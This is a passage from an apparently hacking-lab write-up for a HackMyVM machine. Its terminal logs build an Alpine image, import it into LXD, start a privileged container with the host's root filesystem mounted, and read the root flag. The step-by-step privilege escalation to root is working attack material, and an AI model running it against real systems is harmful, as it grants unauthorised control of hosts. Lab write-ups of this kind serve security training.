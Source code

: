 ```
┌──(nabla㉿kali)-[~]
└─$ git clone https://github.com/saghul/lxd-alpine-builder

┌──(nabla㉿kali)-[~]
└─$ cd lxd-alpine-builder

┌──(nabla㉿kali)-[~]
└─$ sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine

┌──(nabla㉿kali)-[~]
└─$ ls -l                   

[SNIP]
-rw-rw-r-- 1 nabla nabla 3259593 Jun 13 06:25 alpine-v3.13-x86_64-20210218_0139.tar.gz
-rwxrwxr-x 1 nabla nabla    8051 Jun 13 06:25 build-alpine
```

```
jackshephard@lost:/opt/pinged$ lxc image list

jackshephard@lost:/opt/pinged$ lxc image import ./alpine*.tar.gz --alias myimage

jackshephard@lost:/opt/pinged$ lxd init

jackshephard@lost:/opt/pinged$ lxc init myimage mycontainer -c security.privileged=true

jackshephard@lost:/opt/pinged$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

jackshephard@lost:/opt/pinged$ lxc start mycontainer

jackshephard@lost:/opt/pinged$ lxc exec mycontainer /bin/sh

# cd /mnt/root

/mnt/root # ls
backups         initrd.img.old  proc            usr
bin             lib             root            var
boot            lib64           run             vmlinuz
dev             lost+found      sbin            vmlinuz.old
etc             media           srv
home            mnt             sys
initrd.img      opt             tmp

/mnt/root # cat root/root.txt
74cc1c60799e0a786ac7094b532f01b1 🚩
```

<img src="https://hackmyvm.eu/img/correctflag.png" alt="Machine Hacked!" width="150"/>

---
---
